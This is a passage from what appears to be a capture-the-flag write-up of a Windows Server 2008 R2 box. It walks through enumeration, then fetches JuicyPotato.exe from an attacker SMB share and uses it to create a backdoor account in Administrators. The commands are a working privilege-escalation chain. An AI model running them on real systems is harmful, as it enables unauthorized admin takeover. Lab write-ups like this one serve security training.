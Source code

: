 > **Victime Machine**:

```cmd
whoami
```

<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the first enumeration commands I already find a possible vector to escalate privileges, since the compromised account has the **SeImpersonatePrivilege** privilege enabled which would make the system vulnerable to **RottenPotatoNG**, before downloading the **[Juicy Potato](https://github.com/ohpe/juicy-potato){:target="_blank"}** executable (RottenPotatoNG version), I will research the **OS version** and its **architecture**. Once the `JuicyPotato.exe` binary is downloaded and transferred to the victim machine, I run some commands impersonating the user with maximum privileges and succeed in creating a new account to add it to the localgroup **Administrators**.

> **Victime Machine**:

```cmd
hostname
ipconfig
dir /s user.txt

whoami /priv
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled

systemInfo
# OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
# System Type:               x64-based PC

cd C:\Windows\Temp
mkdir privesc
cd privesc
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/JuicyPotato.exe ./JP.exe
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.14\smbFolder\JP.exe .\JP.exe
.\JP.exe

.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user oldb0y oldb0y123!$ /add"
net user
# :(
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user old_b0y oldboy123!$ /add"
net user
# :)

.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators old_b0y /add"
net user old_b0y
```